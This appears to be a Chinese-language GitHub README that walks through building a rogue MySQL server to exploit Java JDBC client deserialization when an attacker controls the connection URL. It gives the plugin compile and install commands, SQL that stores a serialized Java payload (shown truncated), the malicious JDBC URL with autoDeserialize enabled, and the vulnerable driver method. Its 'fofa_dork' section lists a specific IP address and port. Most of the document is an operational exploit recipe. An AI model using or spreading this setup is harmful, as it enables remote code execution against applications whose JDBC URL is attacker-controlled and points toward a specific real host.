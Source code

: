 # MySQL JDBC Deserialization Payload / MySQL客户端jdbc反序列化漏洞

# 描述
当MySQL JDBC url可控时，除了能利用MySQL协议读取MySQL Client的本地文件之外，还可以利用客户端在连接服务器时会反序列化服务器返回的二进制数据，从而触发反序列化漏洞。

# 详情

## 1. 安装rewrite插件
以下安装方式任选其一
### 【任选】编译插件
下载mysql-5.7.28源码到/root/mysql-5.7.28，https://launchpadlibrarian.net/451650638/mysql-5.7_5.7.28.orig.tar.gz
rewrite_example.cc见仓库
```shell
   gcc -shared -Wall -fPIC -o /usr/lib/mysql/plugin/rewrite_example.so rewrite_example.cc  -I/root/mysql-5.7.28/include $(mysql_config --cflags) $(mysql_config --libmysqld-libs) -DMYSQL_DYNAMIC_PLUGIN -lmysqlservices
```
### 【任选】直接使用本git仓库中的rewrite_example.so

复制rewrite_example.so到/usr/lib/mysql/plugin/rewrite_example.so即可。

> rewrite_example.so在Ubuntu16.04编译，如安装时出现问题请自行编译。

## 2. 安装插件，建表，插入二进制数据
安装插件
```sql
INSTALL PLUGIN rewrite_example SONAME 'rewrite_example.so';
```
建表
1. 创建数据库：codeplutos，请自行创建
2. 建表sql如下
```sql
SET NAMES utf8mb4;
SET FOREIGN_KEY_CHECKS = 0;

-- ----------------------------
-- Table structure for payload
-- ----------------------------
DROP TABLE IF EXISTS `payload`;
CREATE TABLE `payload` (
  `COLLATION_NAME` varchar(255) DEFAULT NULL,
  `CHARACTER_SET_NAME` blob,
  `ID` int(5) DEFAULT NULL,
  `IS_DEFAULT` varchar(255) DEFAULT NULL,
  `IS_COMPILED` varchar(255) DEFAULT NULL,
  `SORTLEN` int(5) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

-- ----------------------------
-- Records of payload
-- ----------------------------
BEGIN;
INSERT INTO `payload` VALUES ('1big5_chinese_ci', 0x01, 1, 'Yes', 'Yes', 1);
COMMIT;

SET FOREIGN_KEY_CHECKS = 1;

```
插入payload
```sql
set @a=0xaced00057372002;
update codeplutos.payload set character_set_name = @a;
```

## 3. 指定jdbc url，连接
```
jdbc:mysql://server:port/codeplutos?detectCustomCollations=true&autoDeserialize=true
```

# 漏洞触发点：
com.mysql.jdbc.ConnectionImpl#buildCollationMapping
```java
private void buildCollationMapping() throws SQLException {
    //......省略
    try {
        results = stmt.executeQuery("SHOW COLLATION");
        if (versionMeetsMinimum(5, 0, 0)) {
            Util.resultSetToMap(sortedCollationMap, results, 3, 2);
        } else {
            while (results.next()) {
                sortedCollationMap.put(results.getLong(3), results.getString(2));
            }
        }
    } catch (SQLException ex) {
        if (ex.getErrorCode() != MysqlErrorNumbers.ER_MUST_CHANGE_PASSWORD || getDisconnectOnExpiredPasswords()) {
            throw ex;
        }
    }
    //......省略
}
```

# fofa_dork
```bash
mysql://47.243.106.13:3306
```

# Reference
https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf
